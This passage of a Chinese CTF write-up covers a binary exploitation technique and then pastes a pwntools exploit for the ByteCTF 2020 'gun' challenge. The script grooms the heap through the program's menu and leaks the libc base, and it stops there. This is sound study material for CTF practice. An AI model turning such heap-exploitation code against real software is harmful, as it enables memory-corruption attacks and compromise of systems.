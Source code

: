 ![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-4466d868cdbb88d9738692d542ed27955e6ba1c6.png)

**设置好参数准备跳转**

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6eebadeab5654ec2dc4bd89398210387b7e71d39.png)

rax为**跳转到over\_flow**

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0ead8554ee052fd3eb6942693b3f8c254e90c104.png)

**设置rdx寄存器**

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5f417defcee4f18168b4b100bdb573e73b305b38.png)

0x02 例题
=======

【bytectf2020】gun

exp
---

直接贴fmyy师傅的exp，其中涉及了srop，还没有学。。。不过改成正常的系统调用也可出

```php
from pwn import*
context.arch = "amd64"
p = process('./gun')
libc =ELF('./libc-2.31.so')

def z():
    gdb.attach(p)

def menu(ch):
    p.sendlineafter('Action>',str(ch))

def new(size,content):
    menu(3)
    p.sendlineafter('price:',str(size))
    p.sendlineafter('Name:',content)

def load(index):
    menu(2)
    p.sendlineafter('load?',str(index))

def free(times):
    menu(1)
    p.sendlineafter('time: ',str(times))

p.sendlineafter('Your name: ','nameless')

##leak libc
for i in range(3):
    new(0x10,'') #0 1 2
new(0x420,'nameless') #3
new(0x420,'nameless') #4
new(0x10,'nameless') #5
load(4)
load(3)
free(2)
new(0x20,'') #3
load(3)
free(1)
libc_base = u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00'))-0x1c502d-(libc.sym['__libc_start_main']+243)
log.info('LIBC:\t' + hex(libc_base))
```